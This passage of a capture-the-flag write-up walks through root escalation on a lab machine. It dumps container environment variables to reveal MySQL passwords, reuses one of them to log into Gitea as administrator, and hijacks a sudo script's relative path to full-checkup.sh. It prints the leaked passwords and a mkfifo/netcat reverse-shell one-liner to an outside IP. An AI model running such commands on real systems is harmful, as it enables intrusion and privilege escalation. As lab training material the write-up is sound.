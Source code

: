 The second option is `docker-inspect`

```shell
svc@busqueda:/tmp/sirius$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
```

We need to add a format and a container name.

Checking the [documentation](https://docs.docker.com/engine/reference/commandline/inspect/) of docker-inspect we find a way to get some useful information:

![](10.png)

Let's get `.Config` using the following command:

```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' mysql_db
```

```json
--format={"Hostname":"f84a6b33fb5a","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"3306/tcp":{},"33060/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh","MYSQL_DATABASE=gitea","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","GOSU_VERSION=1.14","MYSQL_MAJOR=8.0","MYSQL_VERSION=8.0.31-1.el8","MYSQL_SHELL_VERSION=8.0.31-1.el8"],"Cmd":["mysqld"],"Image":"mysql:8","Volumes":{"/var/lib/mysql":{}},"WorkingDir":"","Entrypoint":["docker-entrypoint.sh"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"1b3f25a702c351e42b82c1867f5761829ada67262ed4ab55276e50538c54792b","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"db","com.docker.compose.version":"1.29.2"}}
```

We found two different password, I couldn't switch to user root by I was able to login as administrator on Gitea using one of the passwords.

![](11.png)

This allows us to read the source code of the scripts.

![](12.png)

On `system-checkup.py` we can see that when we choose the option `full-checkup` the script runs `full-checkup.sh` that's on the current directory where we ran the script.

That means we can create a `full-checkup.sh` script on `/tmp` for example, run the sudo command with the option `full-checkup` and our script would get executed.

Let's create the script and put the following reverse shell in the file:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.17.90 9002 >/tmp/f
```

Now we give our script execute permissions and setup a listener.

Then we run the sudo command
